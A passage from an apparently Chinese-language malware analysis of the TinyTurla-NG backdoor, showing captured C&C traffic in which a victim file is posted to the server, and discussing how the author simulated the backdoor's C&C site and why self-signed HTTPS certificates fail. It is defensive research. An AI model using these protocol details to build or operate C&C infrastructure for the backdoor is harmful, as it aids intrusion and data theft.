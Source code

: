 ```bash
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

[+] File C:\Users\admin\Desktop\111.txt posted

-----
.
..
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:42 GMT
Content-Length: 4

rsp:
```

## 模拟构建 C&C 站点

在笔者模拟构建 TinyTurla-NG 新后门 C&C 站点的过程中，笔者最初准备尝试使用自签名证书构建一个 HTTPS 站点，但在实际构建过程中，笔者发现 TinyTurla-NG 新后门代码中并未像 TinyTurla 后门调用了 WinHttpSetOption 函数对证书错误信息进行忽略，因此，TinyTurla-NG 新后门无法成功访问使用自签名证书构建的 HTTPS 站点。

通过实际访问 TinyTurla-NG 新后门的 C&C 站点，发现其 C&C 站点的证书信息确实是正常的证书信息，相关截图如下：

[![](assets/1709105912-3c34d468d6ff95341625dac354520434.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227083955-ba5c56d8-d508-1.png)
